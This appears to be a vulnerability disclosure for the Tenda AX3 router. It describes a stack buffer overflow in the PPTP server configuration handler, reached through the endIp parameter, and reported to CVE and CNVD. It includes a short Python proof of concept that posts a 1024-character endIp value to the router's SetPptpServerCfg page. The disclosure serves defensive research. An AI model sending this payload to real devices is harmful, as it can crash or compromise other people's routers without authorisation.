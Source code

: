 # Tenda Router AX3 Vulnerability

This vulnerability lies in the `/goform/SetPptpServerCfg` page which influences the lastest version of Tenda Router AX3. ([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html))

# Vulnerability description

There is a stack buffer overflow vulnerability in the `formSetPPTPServer` function.

The `v13` variable is directly retrieved from the http request parameter `endIp`.

Then `v13` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220117232304090](1.png)

So by POSTing the page `/goform/SetPptpServerCfg` with proper `endIp`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"

endIp = "a" * 1024

r = requests.post(url, data={'endIp': endIp})
print(r.content)
```

# Timeline

- 2022.01.17 report to CVE & CNVD